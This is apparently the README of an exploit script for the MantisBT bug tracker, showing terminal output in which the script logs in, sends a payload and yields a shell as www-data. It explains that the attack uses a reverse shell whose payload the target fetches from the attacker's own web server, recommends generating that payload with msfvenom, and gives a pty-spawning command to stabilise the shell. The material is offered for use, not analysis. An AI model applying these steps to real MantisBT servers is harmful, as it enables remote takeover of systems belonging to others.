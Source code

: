 # README

    root@ch3rn0byl:~/Desktop# python MantisBT.py 
    [+] Pew pew pewwwww!!!
    [+] Logging in...
    [+] Request: 200 OK
    [+] Sending payload...
    python -c 'import pty ; pty.spawn("/bin/bash")'
    www-data@ubuntu:/var/www/html/mantisbt$ 


This was on an install of Mantis. The paths may differ depending on how you set up soo change them!
It will present you an empty prompt, but you will be in shell :)
Just spawn a pty and you should be golden    

# Requirements
Also, this is using a reverse shell. 
So make sure that you have apache2 running because it will grab it from you    
You can use one from msfvenom:    
msfvenom -p payload -f elf etc etc etcccc
